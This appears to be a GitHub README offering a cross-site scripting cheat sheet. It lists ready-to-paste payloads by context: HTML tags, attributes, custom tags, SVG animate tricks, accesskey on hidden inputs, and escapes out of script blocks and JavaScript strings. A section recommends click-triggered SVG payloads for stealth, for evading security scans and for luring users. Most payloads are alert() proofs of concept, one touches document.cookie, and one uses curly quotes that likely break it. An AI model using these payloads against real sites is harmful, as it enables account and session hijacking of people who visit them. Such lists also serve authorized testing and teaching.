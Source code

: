 # xss-cheat-sheet

XSS between HTML tags


<script>alert(document.domain)</script>
 <img src=1 onerror=alert(1)>


XSS in HTML tag attributes

"><script>alert(document.domain)</script>

" autofocus onfocus=alert(document.domain) x="

<a href="javascript:alert(document.domain)">

Custom tag
<blog-tag onclick=alert(document.cookie)>
<customtag onmouseover=alert(1)>XSS</customtag>
<customtag autofocus onfocus=alert(1) tabindex=1></customtag>

"><svg><animatetransform onbegin=alert(1)>
"><img src=x onerror=alert(1)>
"><svg onload=alert(1)>

<!-- clickable XSS -->
<svg><a><animate attributeName=href values=javascript:alert(1)></animate><text y=20 x=20>Click</text></a></svg>

<!-- auto triggered -->
<svg><animate attributeName=onload values=alert(1) begin=0s dur=1s></svg>

<!-- CSS injection -->
<svg><animate attributeName=style values="background:url(javascript:alert(1))" dur=1s></svg>


The Security Importance of Begin=click

1. Stealth: Malicious code remains hidden until the user clicks.
2. Bypass: Can bypass automatic security scans.
3. Social Engineering: Triggers the user with text like "Click me."
4. Timing Control: Triggered at the attacker's desired time.



real life example
<svg width="200" height="50">
  <a>
    <animate attributeName="href" 
             values="javascript:alert('XSS Executed!')" 
             begin="click" 
             dur="1s"/>
    <text x="10" y="30" fill="blue" style="cursor:pointer">
      Click for surprise! 🎁
    </text>
  </a>
</svg>


XSS in hidden input fields

Look at inside head tags
<link rel="canonical" accesskey="X" onclick="alert(1)" />
(Press ALT+SHIFT+X on Windows) (CTRL+ALT+X on OS X)


XSS into JavaScript


Terminating the existing script
If there is such a things like that 

<script>
                        var searchTerms = '<script>alert(1)</script>';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

You could use a payload down below
</script><script>alert(1)</script>



Breaking out of a JavaScript string


If there is something like that

 <script>
                        var searchTerms = 'test123';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

You can use these payloads 
‘-alert(1)-’
'+alert(1)+'
';alert(1);'
';alert(1)//'
'-alert(document.domain)-'
 ';alert(document.domain)//

